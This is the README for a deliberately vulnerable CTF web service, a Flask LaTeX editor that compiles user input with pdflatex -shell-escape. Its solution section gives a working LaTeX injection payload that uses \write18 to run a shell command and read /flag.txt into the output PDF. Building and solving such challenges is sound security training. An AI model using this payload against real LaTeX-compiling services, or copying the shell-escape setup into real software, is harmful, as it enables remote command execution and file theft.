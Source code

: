 # My Favourite Reporting Engine

Challenge Author: yappare

This repository contains a deliberately vulnerable web service for a CTF challenge that demonstrates **LaTeX injection leading to remote command execution** through `pdflatex` with `-shell-escape` enabled.

## What it is
- A simple Flask app with a web LaTeX editor (pink-beige theme).
- User-submitted LaTeX is written to a temporary folder and compiled with `pdflatex -shell-escape`.
- Compilation logs and the generated PDF are returned to the user.
- The flag is stored at `/flag.txt` inside the container.

## Goal for players
Exploit LaTeX injection to read `/flag.txt` and retrieve the flag. The web UI returns the PDF and compilation logs which can be used to exfiltrate data.

## How to run (local / test)
Build and run with Docker (recommended):
```bash
docker-compose up --build
```
Open http://localhost:5000

## Solution

A working LaTeX payload to exfiltrate the flag into the generated PDF is:

```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\immediate\write18{cat /flag.txt > /tmp/flag.txt}
\verbatiminput{/tmp/flag.txt}
\end{document}
```

Explanation:
1. `\immediate\write18{...}` executes the shell command (enabled by `-shell-escape`) which copies `/flag.txt` to a world-readable temporary file inside the container.
2. `\verbatiminput{...}` reads that file into the LaTeX document so the produced PDF contains the flag text. You can then download/open the PDF to read the flag, or look at compilation logs if configured to show file contents.
